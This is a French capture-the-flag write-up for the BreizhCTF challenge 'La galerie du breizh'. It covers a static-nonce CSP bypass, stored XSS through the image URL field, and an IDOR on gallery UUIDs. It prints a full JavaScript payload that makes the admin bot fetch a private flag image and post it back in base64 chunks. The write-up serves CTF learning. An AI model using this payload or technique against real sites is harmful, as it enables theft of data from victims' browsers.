






# La galerie du breizh

### Description

Les organisateurs du breizhctf vous proposent de stocker le lien des photos que vous avez prises lors de l'évènement !

Ils prennent cela très à coeur et vont même vérifier à la main vos galeries photos !

Vous savez qu'il cache une photo quelque part sur le serveur, mais selon eux, c'est impossible de la récupérer !

Vous savez ce que vous devez faire..

`https://la-galerie-du-breizh.ctf.bzh:21000/`

### Solution

On arrive sur une page ou on nous propose de nous créer une galerie personnelle permettant d'héberger des photos avec un uuid qui est random :



Sur cette galerie, on peut ajouter des items, ceux-ci doivent comporter un titre ainsi qu'une URL permettant d'enregistrer la photo que l'on souhaite ajouter dessus.



On remarque que notre image a bien été ajoutée, on obtient maintenant un tableau qui référence toutes nos images. Cela est bien beau mais ce que l'on cherche c'est de leak l'image secrète de l'application. 

Si l'on fait un peu d'énumération classique, on se rend compte que le fichier `robots.txt` contient la ligne suivante :

```
User-Agent: *
Disallow: /private/images/flag.png
```

Evidemment, on ne peut aller chercher cette image, il va donc falloir la leak.
Si l'on inspecte les headers de réponse serveur, on remarque la présence de CSP :

```
Content-Security-Policy: 
    default-src 'self'; 
    style-src 'self' https://cdn.jsdelivr.net; 
    font-src https://cdn.jsdelivr.net; 
    script-src 'nonce-4987917312ab2f0a91e0fe29c0c175cf11f782a301803fe941bea2fa0198'; 
    object-src 'none'; 
    base-uri 'none'; 
    frame-ancestors 'none';
```

Ici, on apprend plusieurs choses :
- On ne peut exfiltrer de la donnée sur internet à cause du `defaut-src`.
- Un nonce est mis en place permettant, pour les balises script qui le match, de se faire exécuter par le navigateur.

Si l'on fait plusieurs requêtes, on se rend compte que celui-ci ne bouge pas et qu'il est statique, cela va nous arranger pour la suite.

On se doute donc que pour ce challenge, il va falloir faire une XSS permettant d'exfiltrer l'image à l'aide du bot, notamment avec la fonctionnalité "vérifier ma galerie", qui fait en sorte qu'un administrateur passe dessus.

Si l'on fait des tests, on se rend compte qu'il n'est pas possible de passer des balises dans le titre de l'image. Néanmoins, dans l'URL que l'on fourni, si celle-ci commence par "http://", on peut injecter ce que l'on veut derrière :



On va donc ici tenter d'injecter une balise script qui respecte le nonce que l'on a pu voir dans les CSP auparavant :

```
https://<script nonce="4987917312ab2f0a91e0fe29c0c175cf11f782a301803fe941bea2fa0198">alert('xss')</script>
```



On obtient donc notre précieuse XSS, qui va aussi se faire trigger par l'admin puisqu'il va venir vérifier notre galerie.

Par ailleurs, sur ce challenge, on peut voir que même si notre cookie "user" (qui référence notre uuid) ne match pas avec celui fourni dans l'URL, on peut quand même accéder à une autre galerie si l'on fourni un UUID valide. Il y a donc une IDOR en GET, mais aussi en POST. En effet, il est possible d'aller écrire dans la galerie de quelqu'un d'autres si on connait son UUID.

On a donc notre schéma d'attaque:
- Bypass CSP avec le nonce
- Création d'une xss permettant d'aller récupérer l'image
- On encode cette image en base64
- On insert en tant que titre dans notre propre galerie le résultat de cette dite base64

Il y a une dernière petite chose à prendre en compte, en effet, si l'on regarde le javascript côté client, on se rend compte qu'un titre ne peut faire plus de 2100 caractères, il va donc falloir split notre image en 3 (en créeant 3 nouvelles entrées).

On obtient donc la payload suivante :
```
https://twitter.com/photo/<script nonce='4987917312ab2f0a91e0fe29c0c175cf11f782a301803fe941bea2fa0198'>
fetch("http://localhost:21005/private/images/flag.png")
.then(res => res.blob())
.then(blob => { 
  var reader = new FileReader(); 
  reader.readAsDataURL(blob); 
  reader.onloadend = function() {   
    var base64data = reader.result;  
    for(var i=0; i<3; i++){
      $.ajax({
        type: "POST",
        url: "/gallery/add",
        data: { title: base64data.substring(i*2100,(i+1)*2100), link: "https://twitter.com/photo", uuid: document.location.pathname.split("/")[2]}
      })
    }
  } 
})</script>
```

Si l'on actualise notre gallerie, on voit que notre injection a bien fonctionnée :



A partir de la base 64, on la concatène et on la transforme en image :



### Flag

BZHCTF{0h_n0n_m4_sup3r_im4g3}